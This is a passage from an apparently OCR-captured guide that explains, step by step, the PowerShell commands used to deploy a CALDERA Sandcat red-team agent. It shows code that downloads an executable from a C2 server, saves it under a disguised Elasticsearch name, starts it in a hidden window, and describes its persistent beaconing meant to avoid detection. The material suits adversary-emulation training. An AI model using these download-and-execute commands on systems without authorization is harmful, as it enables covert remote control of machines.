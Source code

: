     3. Download the Sandcat Agent Executable:

        ```powershell
        $data=$wc.DownloadData($url);
        ```

        - **Explanation**: This line downloads the Sandcat agent from the CALDERA server and stores it in the $data variable as a byte array.

        - **Connection** Type: An HTTP(S) request from the target machine to the CALDERA server, establishing a one-way connection to download the agent.

    4. Terminate Any Existing Agent Process:

        ```powershell
        get-process | ? {$_.modules.filename -like "C:\Users\Public\elasticsearch-double-agent.exe"} | stop-process -f;
        rm -force "C:\Users\Public\elasticsearch-double-agent.exe" -ea ignore;
        ```

        - **Explanation**:
            - `get-process` checks for any running process matching the file path of `elasticsearch-double-agent.exe`.
            - If a matching process is found, it’s stopped using stop-process.
            - The agent file at `C:\Users\Public\elasticsearch-double-agent.exe` is then deleted if it exists.

        - **Purpose**: To ensure no conflicting instances of the agent are running before the new agent file is saved.

    5. Save the Agent Executable and Start the Process:

        ```powershell
        [io.file]::WriteAllBytes("C:\Users\Public\elasticsearch-double-agent.exe",$data) | Out-Null;
        Start-Process -FilePath C:\Users\Public\elasticsearch-double-agent.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
        ```

        - **Explanation**:
            - `WriteAllBytes` writes the downloaded byte array ($data) to `C:\Users\Public\elasticsearch-double-agent.exe`.
            - `Start-Process` launches the new executable in hidden mode, connecting it to the CALDERA server with -server $server and -group red as arguments.

        - **Purpose**: This starts the Sandcat agent, which will run as a background process on the target machine and begin communicating with the CALDERA server.

    **Type of Connection Established**

    The **Sandcat agent** initiates a **persistent HTTP(S) connection** to the CALDERA server at `http://192.168.2.13:8888`. Here’s how the connection works:

    - **Outbound, Persistent HTTP(S) Communication**: The agent reaches out to the server over HTTP(S), polling the server at regular intervals to receive commands or tasks. This is common for agents in red-teaming to remain unobtrusive and avoid detection.

    - **Communication Mode**: Since the Sandcat agent is configured to contact the CALDERA server with the -server argument, it will continuously connect back to this server for instructions.

